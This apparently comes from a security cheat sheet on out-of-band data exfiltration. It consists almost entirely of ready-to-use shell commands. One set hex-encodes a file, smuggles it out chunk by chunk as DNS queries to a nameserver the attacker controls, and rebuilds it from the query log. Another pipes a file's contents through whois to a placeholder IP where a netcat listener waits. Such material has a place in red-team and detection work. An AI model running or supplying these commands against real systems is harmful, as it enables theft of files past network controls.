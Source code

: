 # DNS

## 01 - Unix Shell

### 1.1 - Hex Encoded DNS Exfiltration

```
$ xxd -p file.txt > file.hex

$ for line in `cat file.hex`; do drill $line.<nameserver_dns_server>; done

$ egrep -o [0-9a-f]*.<nameserver_dns_server> /var/lib/bind/query.log | cut -d . -f 1 | uniq > file.hex

$ xxd -r -p file.hex > file.txt
```

### 1.2 - Whois

```
$ whois -h <IP> -p 43 `cat /path/to/file.txt`

$ sudo nc -lnvp 43
```

## References

- [NotSoSecure: Out of Band Exploitation (OOB) CheatSheet](https://notsosecure.com/out-band-exploitation-oob-cheatsheet)